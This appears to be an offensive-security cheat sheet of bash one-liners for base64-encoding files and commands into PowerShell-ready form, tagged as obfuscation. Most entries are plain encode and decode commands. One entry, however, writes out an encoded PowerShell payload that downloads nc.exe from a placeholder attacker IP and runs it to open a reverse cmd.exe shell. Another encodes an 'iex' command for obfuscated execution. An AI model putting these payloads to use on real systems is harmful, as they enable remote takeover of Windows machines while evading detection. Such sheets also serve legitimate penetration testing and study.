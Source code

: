 # base64

% obfuscation, base64

#plateform/linux #target/local #cat/UTILS 

## iconv - base64 encode file (for powershell) 
```bash
iconv -f ASCII -t UTF-16LE <file> | base64 -w 0
```

## iconv - base64 encode command (for powershell)
```bash
echo "iex(command)" | iconv --to-code UTF-16LE | base64 -w 0
```

## python - base64 encode command (for powershell)
```bash
python -c 'import base64; print(base64.b64encode((r"""<powershell_command>""").encode("utf-16-le")).decode())'
```

## python - base64 encode nc revshell (for powershell)
```bash
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://<ip>/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv <ip> <port> -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```

## base64 - encode string 
```bash
echo '<string>' | base64 -w 0
```

## base64 - decode string 
```bash
echo '<string>' | base64 -d 
```


## base64 - encode file 
```bash
cat <path> | base64 -w 0
```

## base64 - decode file 
```bash
cat <path> | base64 -d 
```